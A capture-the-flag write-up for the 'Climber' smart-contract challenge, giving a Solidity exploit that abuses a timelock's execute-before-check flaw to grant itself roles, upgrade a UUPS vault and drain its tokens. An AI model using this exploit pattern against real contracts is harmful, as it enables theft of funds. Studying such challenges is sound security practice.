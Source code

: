# Challenge #12 - Climber
 There's a secure vault contract guarding 10 million DVT tokens. The vault is upgradeable, following the UUPS pattern.

 The owner of the vault, currently a timelock contract, can withdraw a very limited amount of tokens every 15 days.

 On the vault there's an additional role with powers to sweep all tokens in case of an emergency.

 On the timelock, only an account with a "Proposer" role can schedule actions that can be executed 1 hour later.

 Your goal is to empty the vault. 

## Privilege escalation 
In this challenge, we are able to escalate to admin privileges to execute admin level functions. 
The most important one beeing the ``upgradeToAndCall()`` in the UUPS proxy contract which enables an 
attacker to change the contract logic of the proxy contract and drain the funds manipulating the 
``sweepFunds()`` in the ``ClimberVault.sol`` smart contract.  

The exploit starts in the ``ClimberTimelock.sol`` smart contract as we have the ability to
delegatecall functions with the ``execute()``. In order to call this function we have to first 
schedule the tasks which require the sender to be part of a POSPONER_ROLE. Luckily, for us 
the execute() only checks if the tasks has been scheduled after all the tasks have been executed, beeing 
vulnerable to exploit. 

## Exploit Smart Contract Code
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Itimelock {
    function schedule(
        address[] calldata targets,
        uint256[] calldata values,
        bytes[] calldata dataElements,
        bytes32 salt
    ) external;

	function execute(
        address[] calldata targets,
        uint256[] calldata values,
        bytes[] calldata dataElements,
        bytes32 salt
    ) external payable;
}

contract EXPLOIT_CLIMBER {
	Itimelock timelock;
	address[] targets;
	uint256[] values; 
	bytes[] dataElements;
	bytes32 salt;

	function exec(
		address _timelock, 
		address _vault,
		address _vaultV2,
		address _token
	) 
	external {
		// Update delay to 0
		targets.push(_timelock);
		values.push(0);
		dataElements.push(abi.encodeWithSignature("updateDelay(uint64)",0));

		// Add attacker to PROSPOSER_ROLE
		targets.push(_timelock);
		values.push(0);
		dataElements.push(
			abi.encodeWithSignature("grantRole(bytes32,address)",keccak256("PROPOSER_ROLE"), address(this))
		);

		// Upgrade Contract
		targets.push(_vault);
		values.push(0);
		dataElements.push(abi.encodeWithSignature("upgradeToAndCall(address,bytes)",
			_vaultV2,
			abi.encodeWithSignature("sweepFunds(address,address)", _token, msg.sender)
		));

		// Schedule tasks
		targets.push(address(this));
		values.push(0);
		dataElements.push(abi.encodeWithSignature("schedule()"));
		
		// Init contract
		salt = "sigkill9";
		timelock = Itimelock(_timelock);
		timelock.execute(targets, values, dataElements, salt); 
	}

	function schedule() external {
		timelock.schedule(targets, values, dataElements, salt);
	}
}

```
Finnally, execute the exploit.
```js
    it('Exploit', async function () {        
        /** CODE YOUR EXPLOIT HERE */
		this.exploit = await (await ethers.getContractFactory('EXPLOIT_CLIMBER', attacker)).deploy();
		this.vaultV2 = await (await ethers.getContractFactory("ClimberVaultV2", attacker)).deploy();
		await this.exploit.exec(
			this.timelock.address, 
			this.vault.address,
			this.vaultV2.address,
			this.token.address
		);
    });
```
For the new smart contract I upload in ``ClimberVaultV2`` I only change the swapFunds() to drain the funds.  
```sol
    // Allows attacker to drain funds 
    function sweepFunds(address tokenAddress, address recipient) external onlyOwner {
        IERC20 token = IERC20(tokenAddress);
        require(token.transfer(recipient, token.balanceOf(address(this))), "Transfer failed");
    }
```
